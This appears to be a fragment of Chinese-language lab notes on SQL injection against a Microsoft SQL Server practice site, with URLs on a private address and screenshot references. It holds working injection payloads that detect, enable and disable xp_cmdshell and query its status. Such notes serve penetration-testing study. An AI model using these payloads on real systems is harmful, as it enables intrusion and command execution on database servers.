   id=1' and 1=(SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell')--

  ​![image](assets/image-20240906195322-wv8p4ai.png)​
* #### 开启xp_cmdshell

  EXECsp_configure'showadvancedoptions',1;RECONFIGURE;EXECsp_configure'xp_cmdshell',1;RECONFIGURE;

  ​![image](assets/image-20240906200027-gxtqxm8.png)​
* #### 关闭xp_cmdshell

  http://192.168.100.226/less-1.asp?id=1';EXEC sp_configure 'show advancedoptions',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;--
* #### 查看是否禁用xp_cmdshell

  http://192.168.100.226/less-2.asp?id=0 union select 1,2,count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell'--+
  ![image](assets/image-20240906200449-9dqmw5k.png)​
